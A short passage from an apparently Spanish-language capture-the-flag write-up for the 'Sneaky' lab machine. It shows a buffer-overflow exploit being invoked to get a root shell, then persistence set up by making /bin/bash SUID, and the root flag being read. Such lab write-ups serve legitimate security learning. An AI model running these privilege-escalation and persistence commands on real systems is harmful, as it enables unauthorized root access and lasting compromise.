 ```bash
thrasivoulos@Sneaky:/tmp$ chal $(python exploit.py) 
# whoami
root
```
Ahora procederiamos a hacer un poco de Persistencia y conseguir la flag de `root.txt`
```bash
# chmod 4775 /bin/bash
# exit

thrasivoulos@Sneaky:/tmp$ bash -p
bash-4.3# whoami
root
# cat root/root.txt
c5153d86cb175a9d5d9axxxxxxxxxxxxxx
```
Maquina Rooteada =) ! Primer Buffer Overflow con Linux x86 ! 

